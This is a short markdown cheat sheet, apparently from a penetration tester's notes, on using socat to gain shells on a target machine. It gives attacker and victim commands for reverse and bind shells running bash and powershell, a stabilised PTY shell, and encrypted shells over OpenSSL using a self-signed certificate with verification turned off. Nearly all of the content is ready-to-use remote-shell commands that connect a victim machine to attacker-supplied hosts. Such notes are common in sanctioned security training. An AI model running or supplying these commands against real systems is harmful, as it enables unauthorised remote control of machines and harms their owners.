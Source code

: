 # Socat
## Using *socat* To Gain Shell
First transfer the socat binary from attacker machine to target machine. Use any of the methods described in [[Transferring Files]].


### Unencrypted Shells
#### Reverse Shell
Attacker machine:
`socat TCP-L:<port>` - sets up a listener on the specified port

Victim machine:
- `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` - linux target
- `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` - windows target

#### Bind Shell
Victim machine:
- `socat TCP-L:<PORT> EXEC:"bash -li"` - linux target
- `socat TCP-L:<PORT> EXEC:powershell.exe,pipes` - windows target

Attacker machine:
`socat TCP:<TARGET-IP>:<TARGET-PORT>`

**For stable shell:**
Listener:
- `socat TCP-L:<port> FILE:`tty`,raw,echo=0` - equivalent of *stty raw -echo; fg* in netcat
Connect back:
- `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Encrypted Shells
**Just replace *TCP* in simple socat with *OPENSSL* for encrypted**
1. Generate certificates (on attacker machine) to use encrypted shells
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
`cat shell.key shell.crt > shell.pem`

#### Reverse Shell
2. Set up a listener
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` - verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.

**Note:** The certificate must be used on whichever device is *LISTENING*.

3. Connect back
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

#### Bind Shell
Victim:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - //attacker`